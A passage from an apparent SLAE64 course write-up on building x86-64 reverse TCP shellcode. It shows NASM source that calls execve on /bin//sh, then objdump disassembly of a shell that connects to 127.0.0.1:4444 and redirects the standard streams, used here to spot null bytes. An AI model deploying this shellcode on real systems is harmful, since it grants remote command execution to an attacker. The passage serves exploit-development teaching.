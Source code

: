 ```nasm

	; second null push
	push rax

	; set RDX
	mov rdx, rsp

	; push address pf /bin//sh
	push rdi
	
	; set RSI
	mov rsi, rsp

	; call execve
	add rax, 59
	syscall
```

In order to view those `0x00` we compile `reverse-shellcode-course.nasm` and use the `objdump` program, which displays information from object files, by displaying assembler contents and instructions in Intel syntax.

```shell
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ ./compile.sh reverse-shellcode-course
[+] Assembling with Nasm ... 
[+] Linking ... 
[+] Done!
geobour98@slae64-dev:~/SLAE/custom/SLAE64/2_Shell_reverse_tcp$ objdump -d ./reverse-shellcode-course -M intel

./reverse-shellcode-course:     file format elf64-x86-64


Disassembly of section .text:

0000000000400080 <_start>:
  400080:	b8 29 00 00 00       	mov    eax,0x29
  400085:	bf 02 00 00 00       	mov    edi,0x2
  40008a:	be 01 00 00 00       	mov    esi,0x1
  40008f:	ba 00 00 00 00       	mov    edx,0x0
  400094:	0f 05                	syscall 
  400096:	48 89 c7             	mov    rdi,rax
  400099:	48 31 c0             	xor    rax,rax
  40009c:	50                   	push   rax
  40009d:	c7 44 24 fc 7f 00 00 	mov    DWORD PTR [rsp-0x4],0x100007f
  4000a4:	01 
  4000a5:	66 c7 44 24 fa 11 5c 	mov    WORD PTR [rsp-0x6],0x5c11
  4000ac:	66 c7 44 24 f8 02 00 	mov    WORD PTR [rsp-0x8],0x2
  4000b3:	48 83 ec 08          	sub    rsp,0x8
  4000b7:	b8 2a 00 00 00       	mov    eax,0x2a
  4000bc:	48 89 e6             	mov    rsi,rsp
  4000bf:	ba 10 00 00 00       	mov    edx,0x10
  4000c4:	0f 05                	syscall 
  4000c6:	b8 21 00 00 00       	mov    eax,0x21
  4000cb:	be 00 00 00 00       	mov    esi,0x0
  4000d0:	0f 05                	syscall 
  4000d2:	b8 21 00 00 00       	mov    eax,0x21
  4000d7:	be 01 00 00 00       	mov    esi,0x1
  4000dc:	0f 05                	syscall 
  4000de:	b8 21 00 00 00       	mov    eax,0x21
  4000e3:	be 02 00 00 00       	mov    esi,0x2
  4000e8:	0f 05                	syscall 
  4000ea:	48 31 c0             	xor    rax,rax
```